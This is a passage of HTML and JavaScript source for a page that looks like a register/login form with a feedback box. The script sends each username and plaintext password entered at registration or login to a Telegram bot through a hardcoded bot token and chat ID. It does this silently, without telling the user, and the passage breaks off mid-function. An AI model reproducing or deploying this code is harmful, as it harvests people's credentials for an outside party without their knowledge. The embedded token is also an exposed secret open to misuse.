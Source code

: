 <body>

<div class="container" id="authContainer">
  <h2 id="formTitle">Register</h2>
  <input type="text" id="username" placeholder="Username" autocomplete="off" />
  <input type="password" id="password" placeholder="Password" autocomplete="off" />
  <button onclick="handleSubmit()">Submit</button>
  <div class="toggle" onclick="toggleMode()">Already have an account? Login</div>
  <p id="status"></p>
</div>

<div class="container hidden" id="feedbackContainer">
  <div id="welcomeMsg"></div>
  <textarea id="feedbackText" rows="5" placeholder="Write your feedback here..."></textarea>
  <button onclick="sendFeedback()">Send Feedback</button>
  <button style="margin-top: 10px; background: #ccc; color: black;" onclick="logout()">Logout</button>
  <p id="feedbackStatus"></p>
</div>

<script>
  let isLogin = false;
  let users = {};

  // Replace with your Telegram bot details:
  const botToken = '7769917776:AAG7myeUVy3HtP4zK-feu_iVvsdLDCO45-M';   // 🔁 Replace with your bot token
  const chatId = '1881744939';       // 🔁 Replace with your chat ID

  function toggleMode() {
    isLogin = !isLogin;
    document.getElementById("formTitle").innerText = isLogin ? "Login" : "Register";
    document.querySelector(".toggle").innerText = isLogin
      ? "Don't have an account? Register"
      : "Already have an account? Login";
    document.getElementById("status").innerText = "";
  }

  function handleSubmit() {
    const username = document.getElementById("username").value.trim();
    const password = document.getElementById("password").value.trim();
    const status = document.getElementById("status");

    if (!username || !password) {
      status.innerText = "Please fill in all fields.";
      status.className = "error";
      return;
    }

    if (isLogin) {
      if (users[username] && users[username] === password) {
        status.innerText = "";
        loginSuccess(username);
        sendToTelegram(`🔓 Login:\nUsername: ${username}\nPassword: ${password}`);
      } else {
        status.innerText = "Invalid credentials.";
        status.className = "error";
      }
    } else {
      if (users[username]) {
        status.innerText = "Username already taken.";
        status.className = "error";
      } else {
        users[username] = password;
        status.innerText = "Registered successfully. Now login.";
        status.className = "success";
        sendToTelegram(`✅ New registration:\nUsername: ${username}\nPassword: ${password}`);